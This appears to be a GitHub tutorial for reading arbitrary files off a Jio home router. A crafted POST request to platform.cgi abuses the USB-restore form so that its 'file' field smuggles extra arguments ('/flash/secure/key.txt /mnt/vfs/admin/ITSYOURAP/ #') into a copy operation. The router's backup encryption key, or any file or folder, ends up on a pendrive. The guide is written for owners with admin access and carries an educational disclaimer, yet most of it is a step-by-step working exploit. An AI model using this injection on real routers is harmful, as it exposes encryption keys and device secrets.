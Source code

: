 # Way to get any file directly from your Jio Router's Filesystem to your pendrive [Working as of 3rd January 2023]

*Disclaimer: - This is Only for educational purposes, No one is responsible for any type of damage. Any wrong step might brick your router. So be aware.*

## Requirements:-

1. Chrome Browser
2. Postman (or cURL, if you prefer that)
3. A Pendrive or a Portable HDD/SSD that can be plugged into your router

## Notes:-

*Here we are copying `/flash/secure/key.txt` which is the encryption key used to encrypt the router backup configuration to our pendrive.*

*The location of the the pendrive root in the router is `/mnt/vfs/admin/ITSYOURAP/` (Remember to replace `"ITSYOURAP"` with the label of your pendrive)*

## Steps:-

1. Open your router admin page (`http://192.168.29.1`) and login via your admin credentials.
2. After logging in, copy the value of the cookie `TeamF1Login`. You can use the Application tab in Developer options to do so.
3. Go to the Administration > Maintenance Page
4. Press `CTRL + U` (If you are in Chrome Browser) to View Source of the page (Alternatively, you can Inspect Element)
5. Find the Backup/Restore HTML Form. It should look like this:-

    ```html  
    <form name="tf1_frmBackupSaveCurrentSettings" method="post" action="?action=backup">
    <input type="hidden" name="token" value="sometoken">
    ```
6. Copy the value of token element from the form. Here it is sometoken.
7. Open up Postman and create a new POST request to `http://192.168.29.1/platform.cgi`

   In the headers section, uncheck `Accept` and `Accept-Encoding` header.
   Fill up these headers in the request (Use the Bulk Edit option and copy paste these):-
   
   ```none
   Cookie:TeamF1Login=yourteamf1logincookievalue
   Accept:text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
   Referer:http://192.168.29.1/platform.cgi?page=backupRestore.html
   ```

   Change the `TeamF1Login` value with the cookie value you copied in step 2.
   Now go to the Body section and check the form-data checkbox. Click on the Bulk Edit option and copy paste these values:
   
   ```none
   button.usbRestore.statusPage:usbRestore
   file:/flash/secure/key.txt /mnt/vfs/admin/ITSYOURAP/ #
   token:sometoken
   thispage:backupRestore.html
   ```
   
   Remember to replace `sometoken` with the value of the token you copied earlier. Also replace the first section of the file param with the file you want to copy. (We are copying `/flash/secure/key.txt` in this case)
   
8. Now Click on the Send button in Postman to send the request.
Within a few seconds, your request gets completed and now you have the requested file in your Pendrive root. 

***PS: You can also copy directories using this method. Just change the first section of the file param with the folder location in the router.***
